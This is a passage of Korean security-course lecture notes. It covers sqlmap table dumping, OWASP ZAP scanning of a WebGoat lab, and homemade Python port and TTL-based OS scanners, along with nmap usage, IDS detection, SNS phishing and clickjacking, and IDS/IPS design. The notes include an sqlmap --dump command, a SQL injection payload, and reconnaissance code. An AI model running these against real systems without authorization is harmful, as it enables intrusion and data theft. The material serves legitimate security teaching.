$ sqlmap -u "http://target.com/vuln.jsp?id=1" -D mydb -T users --dump
```

**결과 예시:**
```
[*] 취약점 발견: MySQL >= 5.0 Boolean-based blind SQL injection
[*] 데이터베이스: mydb, testdb, information_schema
[*] 테이블 (mydb): users, posts, comments
[*] users 테이블 데이터:
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
| 1  | admin    | 5f4dcc3b5aa765d61d8327deb882cf99 |
| 2  | user1    | 098f6bcd4621d373cade4e832627b4f6 |
+----+----------+----------------------------------+
```


**작성 완료**: Section 2 완료
**다음**: Section 3 - OWASP ZAP 실습 및 포트 스캐너

# Section 3: OWASP ZAP 및 포트 스캐너 실습


## 10. OWASP ZAP: 최고의 무료 웹 스캐너

### 10.1 OWASP ZAP 소개

**강사님의 강력 추천:**
> "차라리 여기서 여러분들이 하나 써본다고 한다면... OWASP에서 나온 거 ZAP이라는 프로그램이 있거든요. 이런 프로그램을 많이 쓰죠. 이런 거는 한번 돌려볼만 해요."

#### 📖 OWASP ZAP (Zed Attack Proxy)

**특징:**
- **완전 무료** 오픈소스
- **지속적인 업데이트** (2-3개월마다)
- **사용하기 쉬운 GUI**
- **자동 스캔** (Automated Scan) 기능
- **CLI 모드** 지원 (스크립트 자동화)
- **다국어 지원** (한글 포함)

**다운로드:**
```
https://www.zaproxy.org/download/
```

### 10.2 OWASP ZAP 설치

#### 📟 Windows 설치 과정

**Step 1: 다운로드**

```
OWASP ZAP 공식 사이트
→ Download → Windows 32-bit Installer
→ ZAP_2_XX_X_windows-x32.exe 다운로드
```

**Step 2: 설치**

```
다운로드한 파일 실행
→ Next
→ I accept the agreement (동의)
→ Standalone (독립 실행형 선택)
→ Next → Install
→ Finish
```

**Step 3: 첫 실행**

```
시작 메뉴 → OWASP ZAP
→ 언어 선택: English (또는 한국어)
→ Do you want to persist the ZAP Session?
  → No, I do not want to persist this session (선택)
→ Start
```

### 10.3 Automated Scan (자동 스캔)

#### 📟 실습: WebGoat 스캔

**강사님의 시연:**
> "URL을 입력하고 주소 입력하고 스캔하기만 공격 시작만 눌렀잖아요. 그랬더니 이런 식으로 뭐 많이 빼줘요."

**Step 1: 자동 스캔 시작**

```
ZAP 메인 화면
└─ Automated Scan 버튼 클릭
   └─ URL to attack: http://192.168.186.128  (WebGoat 주소)
   └─ Use ajax spider: Chrome Headless 선택
   └─ Attack 버튼 클릭
```

**Ajax Spider 옵션:**

| 옵션 | 설명 | 사용 시점 |
|:---|:---|:---|
| **Chrome Headless** | Chrome을 백그라운드에서 실행 | 일반적인 경우 (추천) |
| **Chrome** | Chrome 창이 실제로 보임 | 디버깅 필요 시 |
| **Firefox Headless** | Firefox 백그라운드 실행 | Chrome 문제 시 |
| **Edge Headless** | Edge 백그라운드 실행 | Windows 환경 |

**🔍 Ajax Spider란?**
- JavaScript로 동적으로 생성되는 페이지도 크롤링
- jQuery, React, Vue.js 등 SPA (Single Page Application) 지원
- 브라우저를 실제로 실행하여 렌더링된 DOM 분석

**Step 2: 스캔 진행**

```
Progress Bar: [▓▓▓▓▓▓▓▓▓▓] 100%

Spider: 127 URLs found
Ajax Spider: 45 additional URLs
Active Scan: 172 total requests

Total time: 3분 25초
```

### 10.4 스캔 결과 분석

#### 📊 Alert 심각도 분류

**ZAP의 심각도 레벨:**

| 심각도 | 색상 | 의미 | 예시 |
|:---|:---:|:---|:---|
| **High** | 🔴 빨강 | 즉시 조치 필요 | SQL Injection, XSS (Stored) |
| **Medium** | 🟠 주황 | 중요, 가능한 빨리 수정 | CSRF 토큰 누락, 약한 암호화 |
| **Low** | 🟡 노랑 | 보안 강화 권장 | 정보 노출, 캐시 설정 |
| **Informational** | 🔵 파랑 | 참고 정보 | 사용 기술 스택, 서버 정보 |

#### 📟 실습 결과 예시

**WebGoat 스캔 결과:**

```
=== OWASP ZAP Scan Results ===

High Risk Alerts: 3
- Cross Site Scripting (Reflected) - 2 instances
- SQL Injection - 1 instance

Medium Risk Alerts: 7
- CSRF Token Missing - 3 instances
- X-Frame-Options Header Not Set - 4 instances

Low Risk Alerts: 12
- Cookie No HttpOnly Flag - 8 instances
- X-Content-Type-Options Header Missing - 4 instances

Informational Alerts: 23
- Server Leaks Version Information - 1 instance
- HTTP Only Site - 22 instances
```

### 10.5 취약점 상세 분석

#### 🔍 예시 1: CSRF Token Missing

**클릭: Medium → CSRF Token Missing**

**Alert 상세:**

```
Risk: Medium
Confidence: Medium
URL: http://192.168.186.128/WebGoat/login.jsp

Description:
No Anti-CSRF tokens were found in the HTML submission form.

Solution:
Phase: Architecture and Design
Use a vetted library or framework that does not allow this weakness...

References:
- OWASP CSRF Prevention Cheat Sheet
- CWE-352: Cross-Site Request Forgery
```

**강사님의 활용 팁:**
> "이 설명 쭉 긁어서 ChatGPT들이나 얘네들한테 그 뭐야 한글로 자세히 설명해달라 혹은 좀 쉽게 설명해달라 그러면 이 취약점에 대해서 좀 쉽게 좀 설명을 해줄 거예요."

**ChatGPT/DeepSeek 질문 예시:**
```
[복사한 Alert 내용]

위 보안 취약점에 대해 다음을 설명해주세요:
1. 이 취약점이 위험한 이유
2. 실제 공격 시나리오
3. 해결 방법 (코드 예시 포함)
4. 초보자도 이해할 수 있게 쉽게 설명
```

#### 🔍 예시 2: SQL Injection 발견

**클릭: High → SQL Injection**

```
Risk: High
Confidence: Medium
URL: http://192.168.186.128/WebGoat/attack?id=1

Parameter: id
Attack: 1' OR '1'='1
Evidence: MySQL syntax error

Description:
SQL injection may be possible.

Other Info:
The page results were successfully manipulated using the Boolean
based comparison technique, indicating that the parameter is
injectable.

Solution:
Use PreparedStatement or equivalent parameterized queries.
```

### 10.6 리포트 생성

#### 📟 HTML 리포트 저장

```
ZAP 메뉴
└─ Report
   └─ Generate HTML Report
      └─ 저장 위치 선택: C:\Reports\WebGoat_Scan_20251223.html
      └─ Template: Traditional HTML Report
      └─ Generate
```

**리포트 포함 내용:**
- Executive Summary (요약)
- Alert 목록 (심각도별)
- 각 Alert의 상세 정보
- 영향받는 URL 목록
- 권장 해결 방안
- 참고 자료 (OWASP, CWE 링크)


## 11. 포트 스캐너 제작 및 실습

### 11.1 포트 스캔의 필요성

**강사님의 비유:**
> "포트 스캐너, 첩자 공격 들어갈 때 도둑질할 때 문이 어디가 열려있는지 문이 몇 개인지 이런 걸 먼저 봐야죠. 그 문도 아니고 그냥 들어갈 수는 없으니까..."

#### 📖 포트 스캔이란?

**정의:**
- 대상 시스템의 열린 포트를 탐지하는 과정
- 어떤 서비스가 실행 중인지 파악
- 공격 표면 (Attack Surface) 분석

**Well-Known Ports (0-1023):**

| 포트 | 서비스 | 프로토콜 | 설명 |
|:---:|:---|:---:|:---|
| 21 | FTP | TCP | 파일 전송 |
| 22 | SSH | TCP | 원격 쉘 접속 |
| 23 | Telnet | TCP | 원격 터미널 (비보안) |
| 25 | SMTP | TCP | 이메일 전송 |
| 53 | DNS | UDP/TCP | 도메인 이름 해석 |
| 80 | HTTP | TCP | 웹 서비스 |
| 443 | HTTPS | TCP | 보안 웹 서비스 |
| 3306 | MySQL | TCP | MySQL 데이터베이스 |
| 8080 | HTTP Alt | TCP | 대체 웹 서비스 (WAS) |

### 11.2 Python 포트 스캐너 제작

#### 📟 DeepSeek에게 요청

**프롬프트:**
```
적정 IP에 대해 포트 스캔을 하고 싶다.
간단한 포트 스캔 스크립트를 작성하라.
코드를 최대한 간단하게 만들고,
열린 포트에 대해 "열림"만 표시해주면 된다.
```

#### 📄 port_scanner.py

```python
#!/usr/bin/env python3
import socket
import sys

def scan_port(host, port):
    """
    특정 호스트의 특정 포트가 열려있는지 확인
    """
    try:
        # TCP 소켓 생성
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

        # 타임아웃 1초 설정 (빠른 스캔)
        sock.settimeout(1)

        # 포트 연결 시도
        result = sock.connect_ex((host, port))

        # 연결 성공 시 0 반환
        sock.close()
        return result == 0
    except Exception:
        return False

def main():
    if len(sys.argv) < 2:
        print("사용법: python3 port_scanner.py <IP주소> [시작포트] [종료포트]")
        print("예시: python3 port_scanner.py 192.168.131.100")
        print("     python3 port_scanner.py 192.168.131.100 1 1024")
        sys.exit(1)

    host = sys.argv[1]

    # 포트 범위 지정 (기본값: 1-1024)
    start_port = int(sys.argv[2]) if len(sys.argv) > 2 else 1
    end_port = int(sys.argv[3]) if len(sys.argv) > 3 else 1024

    print(f"[*] {host} 스캔 시작 (포트 {start_port}-{end_port})")
    print("-" * 50)

    open_ports = []

    for port in range(start_port, end_port + 1):
        if scan_port(host, port):
            print(f"[+] 포트 {port} 열림")
            open_ports.append(port)

    print("-" * 50)
    print(f"[*] 스캔 완료: {len(open_ports)}개 포트 발견")

    if open_ports:
        print(f"[*] 열린 포트: {', '.join(map(str, open_ports))}")

if __name__ == "__main__":
    main()
```

### 11.3 포트 스캐너 실습

#### 📟 실습 1: 웹 서버 스캔

**명령어:**
```bash
# 웹 서버 IP: 192.168.131.100
$ python3 port_scanner.py 192.168.131.100
```

**결과:**
```
[*] 192.168.131.100 스캔 시작 (포트 1-1024)
--------------------------------------------------
[+] 포트 22 열림
[+] 포트 80 열림
--------------------------------------------------
[*] 스캔 완료: 2개 포트 발견
[*] 열린 포트: 22, 80
```

**분석:**
- **포트 22 (SSH)**: 원격 관리 포트
- **포트 80 (HTTP)**: 웹 서비스 포트

#### 📟 실습 2: WAS 서버 스캔 (확장 범위)

**명령어:**
```bash
# WAS 서버 IP: 192.168.131.129
# 포트 범위: 1-9000
$ python3 port_scanner.py 192.168.131.129 1 9000
```

**결과:**
```
[*] 192.168.131.129 스캔 시작 (포트 1-9000)
--------------------------------------------------
[+] 포트 22 열림
[+] 포트 8080 열림
--------------------------------------------------
[*] 스캔 완료: 2개 포트 발견
[*] 열린 포트: 22, 8080
```

**분석:**
- **포트 22 (SSH)**: 원격 관리 포트
- **포트 8080 (HTTP Alternative)**: Tomcat WAS 포트

### 11.4 공격 탐지 가능성

**강사님의 경고:**
> "WAS 쪽에서 혹은 웹서버 쪽에서 관제하는 사람이 TCP 덤프로 패킷을 덤프를 뜨고 있으면 어떻게 되겠어요? 동일한 IP에서 계속 포트 번호만 바꾸면서 계속 연결 요청이 들어오는 걸 확인할 수 있을 거예요. 그러면 이상 공격이다 하고 이상을 감지할 수 있겠죠."

#### 🔍 탐지 시나리오

**tcpdump 로그:**
```
10:15:23.123456 IP 192.168.1.50.54321 > 192.168.131.100.1: Flags [S]
10:15:23.223456 IP 192.168.1.50.54322 > 192.168.131.100.2: Flags [S]
10:15:23.323456 IP 192.168.1.50.54323 > 192.168.131.100.3: Flags [S]
10:15:23.423456 IP 192.168.1.50.54324 > 192.168.131.100.4: Flags [S]
...
(같은 IP에서 1초에 수백 개의 SYN 패킷!)
```

**IDS/IPS 경보:**
```
[ALERT] Possible Port Scan Detected
Source: 192.168.1.50
Target: 192.168.131.100
Ports scanned: 1-1024 (sequential)
Time window: 00:02:15
Severity: Medium
```

### 11.5 포트 스캔 기법 비교

#### 📊 스캔 방식

| 기법 | 설명 | 탐지 가능성 | 속도 | 정확도 |
|:---|:---|:---:|:---:|:---:|
| **TCP Connect** | 완전한 3-way handshake | 높음 | 느림 | 높음 |
| **SYN Scan** | SYN만 보내고 RST로 끊음 (Stealth) | 중간 | 빠름 | 높음 |
| **FIN Scan** | FIN 플래그로 탐지 회피 | 낮음 | 빠름 | 중간 |
| **NULL Scan** | 플래그 없이 전송 | 낮음 | 빠름 | 중간 |
| **Xmas Scan** | FIN, PSH, URG 플래그 모두 설정 | 낮음 | 빠름 | 중간 |

**우리가 만든 스캐너:**
- TCP Connect 방식
- `socket.connect_ex()` 함수 사용
- 완전한 연결 → 로그에 남음
- **교육용으로 적합, 실전에서는 Stealth 스캔 사용**

### 11.6 Nmap과 비교

#### 📟 Nmap: 프로 도구

**강사님의 언급:**
> "엠맵 같은 거 혹시 써보셨어요? 굉장히 유용하고 옵션도 많은 도구들이 있어요."

**Nmap 설치:**
```bash
$ sudo apt install nmap
```

**기본 스캔:**
```bash
# 기본 스캔
$ nmap 192.168.131.100

# 포트 범위 지정
$ nmap -p 1-1024 192.168.131.100

# 빠른 스캔 (상위 100개 포트만)
$ nmap -F 192.168.131.100

# SYN 스캔 (Stealth)
$ sudo nmap -sS 192.168.131.100

# 서비스 버전 탐지
$ nmap -sV 192.168.131.100

# OS 탐지
$ sudo nmap -O 192.168.131.100

# 전체 스캔 (느리지만 상세함)
$ sudo nmap -A 192.168.131.100
```

**Nmap 결과 예시:**
```
Starting Nmap 7.94 ( https://nmap.org )
Nmap scan report for 192.168.131.100
Host is up (0.00050s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
MAC Address: 00:0C:29:3F:8A:1B (VMware)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6

Nmap done: 1 IP address (1 host up) scanned in 12.34 seconds
```

**우리 스캐너 vs Nmap:**

| 기능 | 우리 스캐너 | Nmap |
|:---|:---:|:---:|
| 포트 스캔 | ✅ | ✅ |
| 서비스 탐지 | ❌ | ✅ |
| OS 탐지 | ❌ | ✅ |
| Stealth 스캔 | ❌ | ✅ |
| 스크립트 엔진 | ❌ | ✅ (NSE) |
| 학습 가치 | ⭐⭐⭐⭐⭐ | ⭐⭐⭐ |

**강사님의 교훈:**
> "여러분들도 이런 식으로 공부를 할 때 이론 공부나 이론 알겠는데 그래서 어쩌라고 라고 하지 말고 이제 세상이 바뀌었잖아요. 그래서 어쩌라고는 얘가 해결을 해줘요. 그러니까 우리는 이렇게 만들어서 쓰기만 하면 되고요."


**작성 완료**: Section 3 완료
**다음**: Section 4 - OS 스캐너 및 SNS 보안

# Section 4: OS 스캐너, SNS 보안 및 종합 정리


## 12. OS 스캐너 제작 및 실습

### 12.1 운영체제 탐지의 필요성

**강사님의 설명:**
> "상대방 운영체제가 뭔지 알아야지 내가 이제 상대방 서버에 침투해서 어떤 식으로 작전을 짤지 시나리오가 나오겠죠."

#### 📖 OS Fingerprinting이란?

**정의:**
- 원격 시스템의 운영체제를 식별하는 기술
- 네트워크 응답 패턴 분석
- TTL 값, 윈도우 사이즈, TCP/IP 스택 특성 활용

**활용:**
- 취약점 익스플로잇 선택 (Windows용 vs Linux용)
- 백도어/웹쉘 선택
- 공격 도구 맞춤화

### 12.2 OS 식별 방법

#### 🔍 1. TTL (Time To Live) 값

**강사님의 설명:**
> "TTL 값을 쓰는데 지금 리눅스에서 TTL을 하니까 이런식으로 128개가 나오죠. 그러면 윈도우에서 해볼까요? 윈도우에서 핑을 해볼까요? 핑 8.8.8.8 이렇게 하면은 얘는 어때요. TTL이 115죠."

**운영체제별 기본 TTL:**

| 운영체제 | 초기 TTL | 일반적인 수신 TTL |
|:---|:---:|:---:|
| **Linux/Unix** | 64 | 60-64 |
| **Windows** | 128 | 115-128 |
| **macOS** | 64 | 60-64 |
| **Cisco** | 255 | 240-255 |

**TTL 감소 원리:**
```
발신지 (TTL=64) → 라우터1 (TTL=63) → 라우터2 (TTL=62) → 목적지

목적지에서 응답:
목적지 (TTL=64) → 라우터2 (TTL=63) → 라우터1 (TTL=62) → 발신지

수신한 TTL = 62
→ 원래 TTL = 64 (Linux/Unix)
```

**리눅스에서 Ping 테스트:**
```bash
$ ping -c 1 8.8.8.8
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=128 time=10.2 ms
```

**Windows에서 Ping 테스트:**
```cmd
C:\> ping 8.8.8.8
Pinging 8.8.8.8 with 32 bytes of data:
Reply from 8.8.8.8: bytes=32 time=10ms TTL=115
```

#### 🔍 2. ICMP 패킷 크기

| 운영체제 | 기본 ICMP 데이터 크기 |
|:---|:---:|
| **Linux/Unix** | 56 bytes (헤더 포함 64 bytes) |
| **Windows** | 32 bytes (헤더 포함 40 bytes) |
| **macOS** | 56 bytes |

#### 🔍 3. TCP Window Size

**TCP 3-way Handshake에서 윈도우 사이즈:**

| 운영체제 | 기본 Window Size |
|:---|:---:|
| **Linux** | 5840, 14600, 29200 (다양함) |
| **Windows 10/11** | 64240, 65535 |
| **macOS** | 65535 |

#### 🔍 4. TCP SYN 옵션

**TCP 옵션 필드 순서와 값이 OS마다 다름:**

```
Linux:   MSS, SACK Permitted, Timestamp, NOP, Window Scale
Windows: MSS, NOP, Window Scale, NOP, NOP, SACK Permitted
macOS:   MSS, NOP, Window Scale, NOP, NOP, Timestamp, SACK Permitted, EOL
```

### 12.3 Python OS 스캐너 제작

#### 📟 DeepSeek에게 요청

**프롬프트:**
```
원격의 운영체제를 스캔하고 싶다.
ICMP 프로토콜의 TTL 값만 이용하여
상대방의 운영체제를 추정하는 간단한 스크립트를 작성하라.
```

#### 📄 os_scanner.py

```python
#!/usr/bin/env python3
import sys
from scapy.all import *

def get_os_from_ttl(ttl):
    """
    TTL 값으로 운영체제 추정
    """
    if 0 < ttl <= 64:
        return "Linux, Unix, macOS"
    elif 64 < ttl <= 128:
        return "Windows"
    elif 128 < ttl <= 255:
        return "Cisco, Network Device"
    else:
        return "Unknown"

def scan_os(target_ip):
    """
    ICMP 패킷을 보내서 TTL 값 확인
    """
    try:
        # ICMP Echo Request 패킷 생성
        packet = IP(dst=target_ip)/ICMP()

        # 패킷 전송 및 응답 수신
        response = sr1(packet, timeout=2, verbose=0)

        if response:
            ttl = response.ttl
            os_guess = get_os_from_ttl(ttl)

            print(f"[*] 대상 IP: {target_ip}")
            print(f"[*] 응답 TTL: {ttl}")
            print(f"[*] 추정 운영체제: {os_guess}")
        else:
            print(f"[-] {target_ip}로부터 응답 없음")

    except Exception as e:
        print(f"[!] 오류 발생: {e}")

def main():
    if len(sys.argv) < 2:
        print("사용법: python3 os_scanner.py <IP주소>")
        print("예시: python3 os_scanner.py 192.168.131.100")
        sys.exit(1)

    target = sys.argv[1]
    print("[*] OS 스캔 시작...")
    scan_os(target)

if __name__ == "__main__":
    main()
```

### 12.4 OS 스캐너 실습

#### 📟 Scapy 패키지 설치

**강사님의 실습:**
> "스캐피라는 얘를 설치해야 된다네요. PIP3 인스톨 스캐피..."

**의존성 설치:**
```bash
# Python3 pip 설치
$ sudo apt install python3-pip

# Scapy 설치
$ pip3 install scapy

# 권한 오류 시
$ pip3 install scapy --break-system-packages
```

**Scapy란?**
- 강력한 Python 패킷 조작 라이브러리
- 패킷 생성, 전송, 수신, 분석
- 네트워크 프로토콜 스택 완전 제어
- 교육 및 연구용으로 최고

#### 📟 실습: 웹 서버 OS 탐지

**명령어:**
```bash
$ sudo python3 os_scanner.py 192.168.131.100
```

**결과:**
```
[*] OS 스캔 시작...
[*] 대상 IP: 192.168.131.100
[*] 응답 TTL: 64
[*] 추정 운영체제: Linux, Unix, macOS
```

**분석:**
- TTL 64 → Linux 계열
- Ubuntu 또는 Debian일 가능성 높음

#### 📟 실습: Windows PC 탐지

**명령어:**
```bash
$ sudo python3 os_scanner.py 192.168.131.1
```

**결과:**
```
[*] OS 스캔 시작...
[*] 대상 IP: 192.168.131.1
[*] 응답 TTL: 128
[*] 추정 운영체제: Windows
```

### 12.5 실무 도구: Nmap OS Detection

**Nmap의 OS 탐지:**
```bash
$ sudo nmap -O 192.168.131.100
```

**결과:**
```
Nmap scan report for 192.168.131.100
Host is up (0.00050s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop

OS detection performed. Please report any incorrect results.
```

**Nmap의 OS 탐지 방법:**
- **TCP/IP 스택 Fingerprinting**: 16가지 이상의 테스트
- **TTL 값 분석**
- **TCP 윈도우 사이즈**
- **TCP 옵션 순서**
- **ICMP 응답 패턴**
- **방대한 OS 시그니처 데이터베이스**


## 13. SNS 보안 위협

### 13.1 SNS의 탄생과 성장

**강사님의 회고:**
> "제 시절에는 그 여러분들 영화 보셨을지 모르는데 페이스북이라는 영화도 있었잖아요... 웹 2.0 시대로 진화하면서 소셜 네트워크가 급격히 성장했다..."

#### 📖 페이스북의 시작

**재미있는 기원:**
> "페이스북 같은 경우 저커버그가 학교 시스템 취약점을 이용해서 기숙사 여학생들의 사진을 모두 입수한 후에 누가 제일 예쁜지 투표하는 페이지를 만든 게 제일 처음 시작이었대요."

**성장:**
- 2004년 하버드 대학에서 시작
- 2006년 일반 공개
- 2021년 일일 활성 사용자 19억 명
- 현재는 30억 명 이상

#### 📊 웹 1.0 vs 웹 2.0

| 구분 | 웹 1.0 | 웹 2.0 (SNS 시대) |
|:---|:---|:---|
| **특징** | 정보 소비 | 정보 생산 및 공유 |
| **방향** | 일방향 (서버 → 사용자) | 양방향 (사용자 ↔ 사용자) |
| **예시** | 포털 사이트, 뉴스 | 페이스북, 트위터, 인스타그램 |
| **보안 위협** | 서버 중심 공격 | 사용자 중심 공격 |

### 13.2 SNS 보안 위협

#### 🔴 1. 악성 소프트웨어 (Malware)

**역사:**
- 2001년 Code Red Worm (IIS 취약점)
- 2003년 SQL Slammer (SQL Server 취약점)
- 2010년대 SNS를 통한 랜섬웨어 전파

**SNS를 통한 전파 방법:**
- 페이스북 메신저 악성 링크
- 인스타그램 DM 피싱
- 가짜 이미지 파일 (SVG 악성 코드)

#### 🔴 2. 피싱 (Phishing)

**유사 도메인 사례:**

| 정상 사이트 | 피싱 사이트 |
|:---|:---|
| instagram.com | inst**e**gram.com (a → e) |
| google.com | goog**i**e.com (l → i) |
| facebook.com | faceb**0**ok.com (o → 0) |
| naver.com | n**4**ver.com (a → 4) |

**강사님의 조언:**
> "지금도 구글 사이트 O자 하나만 더 쳐도 또 이상한 사이트로 납치되죠."

#### 🔴 3. 클릭재킹 (Clickjacking)

**강사님의 설명:**
> "이 사이트를 조작해서 여기에다가 투명 프레임을 씌우고 투명 버튼을 하나 만들고 버튼을 눌렀을 때 패스워드가 동시에 두 군데로 전송되게. 이런 걸 갖다가 이제 나도 모르게 속인다고 해서 클릭 재킹이라고 해요."

**공격 시나리오:**



**방어:**
```http
X-Frame-Options: DENY
Content-Security-Policy: frame-ancestors 'none'
```

#### 🔴 4. 개인정보 노출

**위험:**
- 생년월일, 전화번호, 이메일 공개
- 위치 정보 자동 태그
- 실시간 활동 노출 (집에 없음 → 빈집털이)

### 13.3 대응 방안

#### 🛡️ 개인 수준

**강사님의 교재 요약:**
> "출처 알 수 없는 링크 함부로 클릭하지 않는다. 모르는 사람에게 받은 이메일에 첨부된 파일은 열어보지 않는다. 모르는 사람의 친구 요청은 수락하지 않는다."

**체크리스트:**
- [ ] 알 수 없는 링크 클릭하지 않기
- [ ] 이메일 첨부 파일 주의
- [ ] 모르는 사람 친구 추가 거부
- [ ] 개인정보 공개 범위 최소화
- [ ] 2단계 인증 (2FA) 활성화
- [ ] 정기적인 패스워드 변경
- [ ] 공공 Wi-Fi에서 로그인 피하기

#### 🛡️ 기업 수준

**네트워크 보안 아키텍처:**



**IDS vs IPS:**

**강사님의 설명:**
> "IPS는 어디부터 있냐? 보통 IPS 같은 경우는 이런 내부망에다가 이렇게 해서 하나 IDS를 붙여놔요. 얘는 어떤 역할을 하냐? 차단 기능이 없고요. 들어온 패킷을 분석해서 어? 악성. 어? 이상한 애가 들어왔어. 이런 것들을 모니터링 할 수 있는 기능의 서버에요."

| 구분 | IDS (Intrusion Detection System) | IPS (Intrusion Prevention System) |
|:---|:---|:---|
| **위치** | 네트워크 미러링 포트 | 네트워크 인라인 (통과 지점) |
| **기능** | 탐지 및 경보 | 탐지 및 차단 |
| **랜카드** | 1개 | 2개 이상 |
| **처리 속도** | 빠름 (분석만) | 상대적으로 느림 (차단 포함) |
| **검사 계층** | OSI 7계층 전체 | 주로 3-4계층 (빠른 처리) |
| **False Positive 영향** | 경보만 | 정상 트래픽 차단 위험 |

**배치 예시:**
```
[인터넷]
   ↓
[방화벽/IPS] ← 1차 차단 (포트 기반)
   ↓
[DMZ 구역] ← 웹 서버, WAS
   ↓
[IDS] ← 미러링 포트로 모든 트래픽 복사, 심층 분석
   ↓
[내부망] ← 업무용, 행정용 서버
```


## 14. 종합 정리 및 학습 정리

### 14.1 오늘 학습한 내용 요약

#### ✅ 주요 학습 내용

**1부: Burp Suite 및 세션**
- Burp Suite 한글 폰트 설정
- Intruder 4가지 공격 방식 (Sniper, Battering Ram, Pitchfork, Cluster Bomb)
- 세션 기반 로그인 구현 (JSP)
- 세션 탈취 및 우회 실습

**2부: 파일 업로드 보안**
- MD5 해시를 이용한 파일명 변환
- 웹쉘 업로드 방어
- 확장자, MIME 타입, 크기 검증

**3부: 웹 스캐너**
- OWASP ZAP 자동 스캔
- 취약점 리포트 분석 (High/Medium/Low)
- Nikto, SQL Map 소개

**4부: 네트워크 스캔**
- Python 포트 스캐너 제작
- OS Fingerprinting (TTL 기반)
- Nmap 실무 활용

**5부: SNS 보안**
- 피싱, 클릭재킹, 정보 노출
- IDS/IPS 네트워크 아키텍처

### 14.2 주말 과제

**강사님의 미션:**
> "다음 주까지 그냥 여러분들 놀지 마시고 오늘 세션 만들었잖아요. 세션 만들고 우리가 지난주에 리드, 라이트, 인덱스, 컨피그 몇 개 파일이 있어요. 이게 뭐예요? 게시판 파일이거든요. 게시판 소스들 골라내 가지고 세션 디렉터리 다 갖다 놓고 세션 인증받은 사람들만이 게시판을 쓸 수 있고..."

#### 📋 과제: 세션 + 게시판 통합

**요구사항:**
1. 지난 시간 만든 게시판 파일 (read.jsp, write.jsp, index.jsp, config.jsp) 복사
2. session 디렉토리로 이동
3. 모든 게시판 페이지에 `sessionCheck.jsp` 추가
4. 글 작성 시 사용자 ID를 세션에서 가져오기 (수동 입력 제거)
5. 로그인하지 않으면 게시판 접근 불가

**힌트:**
```jsp
<!-- 게시판 페이지 (board.jsp) -->
<%@ include file="sessionCheck.jsp" %>
<%
    // 세션에서 사용자 정보 가져오기
    String uname = (String)session.getAttribute("uname");
    int uid = (Integer)session.getAttribute("uid");
%>
```

### 14.3 다음 주 학습 예고

**월요일 계획:**
- 웹 서버 보안 (Nginx, Apache)
- 웹 해킹 도구 종합 실습 (14기 강의 자료 활용)
- SQL Map, Burp Suite Pro 추가 기능
- 웹쉘 업로드 취약점 실습
- 모듈 프로젝트 시작 (화요일부터)

**모듈 프로젝트 주제:**
- 취약점 진단 자동화 스크립트 개발
- AI (ChatGPT, DeepSeek) 활용
- 1-2일: 취약한 사이트 구축
- 3-5일: 취약점 스캐너 개발
- 최종일: 발표 및 보고서 제출

### 14.4 핵심 명령어 및 도구 정리

#### 📟 명령어 치트시트

**Burp Suite:**
```
Proxy → Intercept On/Off
Target → Send to Intruder
Intruder → Position → Payload
Repeater → Send (수동 테스트)
```

**포트 스캔:**
```bash
# 우리 스캐너
python3 port_scanner.py <IP> [시작포트] [종료포트]

# Nmap
nmap -p 1-1024 <IP>
sudo nmap -sS <IP>  # SYN 스캔
sudo nmap -O <IP>   # OS 탐지
```

**OS 스캔:**
```bash
sudo python3 os_scanner.py <IP>
```

**OWASP ZAP:**
```
Automated Scan → URL 입력 → Attack
Report → Generate HTML Report
```

**웹 서버:**
```bash
# Tomcat 재시작
sudo systemctl restart tomcat9

# 로그 확인
tail -f /var/log/tomcat9/catalina.out
```

### 14.5 학습 체크리스트

#### ✅ 이론 이해

- [ ] 세션과 쿠키의 차이
- [ ] PreparedStatement의 SQL Injection 방어 원리
- [ ] MD5 해시의 단방향 특성
- [ ] TTL 값으로 OS 탐지하는 방법
- [ ] IDS와 IPS의 차이

#### ✅ 실습 완료

- [ ] Burp Suite 한글 폰트 설정
- [ ] 세션 로그인 사이트 구축
- [ ] 브라우저 간 세션 탈취 성공
- [ ] OWASP ZAP 스캔 및 리포트 생성
- [ ] 포트 스캐너 실행 및 결과 분석
- [ ] OS 스캐너 실행 및 OS 식별

#### ✅ 과제

- [ ] 게시판 + 세션 통합
- [ ] sessionCheck.jsp로 모든 페이지 보호
- [ ] 세션에서 사용자 ID 가져와서 글 작성


## 15. 강사님의 조언 및 학습 철학

### 15.1 AI 시대의 학습 방법

**강사님의 핵심 메시지:**
> "여러분들도 이런 식으로 공부를 할 때 이론 공부나 이론 알겠는데 그래서 어쩌라고 라고 하지 말고 이제 세상이 바뀌었잖아요. 그래서 어쩌라고는 얘가 해결을 해줘요. 그러니까 우리는 이렇게 만들어서 쓰기만 하면 되고요."

**학습 전략:**
1. **이론 이해**: 왜 필요한지, 어떻게 동작하는지
2. **질문 능력**: AI에게 정확하게 요구사항 전달
3. **검증 능력**: AI가 만든 코드를 이해하고 테스트
4. **응용 능력**: 기존 코드를 상황에 맞게 수정

### 15.2 실무 경험의 가치

**강사님의 경험 공유:**
> "여러분들이 실제 나중에 필요로 하는 게 뭔지를 알아서 이렇게 가르치는 거거든요. 나중에 분명히 이걸 쓸 거거든요."

**실무에서 중요한 것:**
- 도구의 사용법보다 **원리 이해**
- 최신 도구보다 **검증된 도구**
- 완벽한 방어보다 **현실적인 방어**
- 혼자 모든 것보다 **팀워크와 협업**

### 15.3 보안 전문가의 마인드셋

**강사님의 조언:**
> "약간은 우리가 전문가는 아니라 모든 사항을 수동으로 다 일일이 찾아서 검사하기는 힘들어요. 근데 이런 식으로 오토 스캔만 돌리더라도... 어느 정도까지는 쓸 수 있는 쓸만한 리포트가 돼요."

**효율적인 보안 업무:**
1. **자동화 먼저**: 스캐너로 빠르게 커버리지 확보
2. **수동 검증**: High 리스크 취약점만 깊이 분석
